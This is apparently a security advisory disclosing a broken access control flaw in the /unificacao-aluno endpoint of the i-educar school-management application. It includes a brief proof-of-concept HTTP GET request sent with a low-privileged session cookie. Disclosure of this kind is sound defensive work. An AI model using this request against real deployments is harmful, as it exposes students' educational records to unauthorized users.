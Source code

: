 # Broken Access Control  in `/unificacao-aluno` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/unificacao-aluno` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /unificacao-aluno`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.
![[Pasted image 20250914131157.png]]
![[Pasted image 20250821191019.png]]
    
2. Send the following request::

```
GET /unificacao-aluno HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_consulta_movimento_mensal_lst.php?ano=2025&ref_cod_instituicao=1&ref_cod_escola=4&ref_cod_curso=3&ref_cod_serie=&ref_cod_turma=&data_inicial=01%2F08%2F2025&data_final=31%2F08%2F2025&modalidade=1
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

![[Pasted image 20250914132409.png]]

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)